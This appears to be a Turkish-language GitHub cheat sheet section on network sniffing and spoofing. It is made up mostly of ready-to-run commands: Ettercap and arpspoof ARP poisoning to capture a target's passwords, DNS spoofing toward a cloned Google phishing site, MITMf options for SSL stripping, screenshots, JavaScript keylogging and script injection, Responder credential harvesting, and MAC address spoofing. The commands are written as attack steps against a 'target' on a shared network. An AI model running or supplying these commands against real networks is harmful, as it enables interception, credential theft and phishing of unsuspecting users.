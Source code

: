 ## 08. SNIFFING & SPOOFING (KOKLAMA VE SIZDIRMA ARAÇLARI):

### Ettercap :
    Ağı dinleme ve yönlendirme yapmaya yarar.
    
    Hedefteki cihaza saldırıp şifreleri ele geçirmek için :
    `ettercap -Tq -M arp:remote -i wlan0 /modem_ip//   /hedef_ip//`
    
    Site yönlendirme yapmak için:
    `leafpad /etc/ettercap/etter.dns`	//site yönlendirmelerini düzenle
    `ettercap -Tq -M arp:remote -P dns_spoof -i eth0 /// ///`
	//plug-ini dns_spoof yazan yere de yazabiliriz yada programı çalıştırıp p ye basarak seçebiliriz.
	// -S -> sslstrip kendimiz yaptığımızda  -S koymalıyız.


### Ferret , Hamster :
    Ferret : Ağ üzerine kullanıcıların girdikleri web sitelerini kaydeder.
    “ferret -i eth0” -> Bilgi toplamaya başlar.
    
    Hamster : Ferret’ten gelen bilgileri görsel olarak düzenli şekilde görülmesini sağlar.

### Macchanger :
    Mac adresini değiştirmeye yarar. 
    “ifconfig eth0 down”     ->     Önce ağ kartı devre dışı bırakılır.
    “macchanger -r eth0”    ->     r parametresi rastgele mac adresi oluşturur.
    “macchanger --mac 12:23:34:45:56:67 eth0”    ->      Elle mac girmek için.
    “ifconfig eth0 up”          ->    Ağ kartı tekrar aktif edilir.
    “macchanger --permanent eth0”     ->    İlk orjinal ayarına döndürür.
    
    Başka bir mac adres değiştirme yöntemi :
    “ifconfig wlan0 down”
	“ifconfig wlan0 hw ether 00:11:22:33:44:55”

### MITM (Man in the Middle Framework)  
    Yüklemek için     ->    “apt-get install mitmf”  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0”  
    Güvenli Https isteklerini Http olarak açtırır. Hsts kullanan sitelerde çalışmaz. (Hsts: Adres satırına elle http girsen bile seni https sayfasına atar. Facebook ve gmail hsts kullanıyor)  

### MITM DNS  
    Sahte Dns adreslerine yönlendirme yapar.İstediğimiz ip adresine yönlendiririz.  
    “leafpad /etc/mitmfmitmf.conf” -> Açılan dosyada \[\[\[A\]\]\] yazan yer girilen sitenin yönlendirildiği ip nin yazıldığı yer. (\*.hotmail.com = 192.168.1.1)  

    Yönlendirmeyi başlatma :  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --dns”

    Ekran Görüntüsü Alma:  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --screen --interval 20” (20 saniye)  
    Görüntülerin kaydedildiği yer : /var/log/mitmf  
    Hata verirse : “pip install Twisted=15.5.0”  

    Klavye Tuşlarını Takip Etmek:  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --jskeylogger”  

    Java Script Kodlarını Çalıştırmak:  
    “mitmf --arp --spoof --gateway modem\_ip --target hedef\_ip -i eth0 --inject --js-payload “alert(‘...’);”
### Mitm Proxy :
	Ağdaki kullanıcıların girdikleri web sitelerini analiz eder.
    
    Port yönlendirme için izin verme :
	`echo 1 > /proc/sys/net/ipv4/ip_forward`  -> bu dosyadaki 0 değerini 1 yaptık.
	
	Port yönlendirme için :
	`iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to -port 8080`  ->  80’den gelenleri 8080’e yönlendir.
	
	Arp yönlendirmesi (arpspoof):
	`arpspoof -i eth0 -t hedef_ip_adresi  modem_ip_adresi`
	`mitmproxy -T -p 8080`
	
### Arp Saldırısı :
    Ağdaki Gateway aygıtının mac adresini kendi cihazımız olarak ayarlayıp, ağdaki diğer cihazların yönlendirmelerini kendi üzerimizden yapmak. Mıtm proxy ile aynı işlemler.
    
    Arp ile ağdaki cihazların keşfi;
	“arping 192.168.0.1” => Modeme ping atar, mac adresini öğrenir.
   
    Ağda kimler var;
	“arp-scan --localnet”
	“arp-scan --localnet --interface=eth0(wlan0)”
    
    Port yönlendirme için izin verme :
    “echo 1 > /proc/sys/net/ipv4/ip_forward”  -> bu dosyadaki 0 değerini 1 yaptık.
    
    Arp yönlendirmesi (arpspoof):
    “arpspoof -i eth0 -t hedef_ip_adresi -r modem_ip_adresi”
   
    Hedef ip gateway’e gitmeye çalışırken bizim eth0 interface’imizden geçecek.
    -r reverse ( Her iki taraf içinde zehirleme yapar tek komutta )


### Responder :
	Ağ üzerinde netbios’dan gelen istekleri izler. Ağda herhangi bir dosya paylaşımına ulaşılmak istendiğinde araya girerek kullanıcı adı ve şifreleri öğrenir. 
   
    `python Responder.py -i 192.168.42.131 -I eth0 -w -r -f`  komutu ile uygulamayı çalıştırıyoruz.

    -i   : Ip adresimizi belirttik.
    -I   : Ağ adaptörümüzü belirttik. ( eth0, gns33, wifi0 vs.)
    -w   : WPAD Proxy sunucusunu başlatır. Default olarak kapalı gelir.
    -r   : NetBIOS’un wredir sorgularına cevap verir
    -f   : Makine parmak izlerini izlememizi sağlar.    

#### Smb sign özelliğine bakma
    “python /usr/share/responder/tools/Runfinger.py -i 192.168.1.1/24” yada
    “responder-RunFinger -i 192.168.0.0/24”

### Wireshark :
	Ağ analizinde kullanılır. Ağ kartına tıklanarak dinlemeye başlanır.
    Protokol adı contains “aranacak kelime ” = O protokol verileri içerisinde geçen aranan kelimenin olduğu satırları getirir.
    File>Export Object ile dosyaları dışarı çıkart.

### Tshark :
    tshark -i eth0 -w dosya.pcap -f “tcp” -c 10 --capture-comment “yorum satırı”
    i = interface
    w= oluşturulacak dosya adı
    f= protokol filtreleme
    c= yakalanacak paket miktarı
    r= okunacak dosya
   
### DNS Spoofing
    Hedefe DNS yönlendirme yaptırarak istediğimiz adrese gitmesini sağlarız.
    1.	Dns config dosyası oluştur. (dns.cfg)
    192.168.1.15	*.google.com
    (kendi ip’miz)
    2.	Klon site yap. (Örnek : setolkit programıyla google kopyala.)
    Oluşan klon siteye kendi ip mizin 80 portundan bakabiliriz.
    3.	“dnsspoof -i eth0 -f /root/Desktop/dns.cfg”
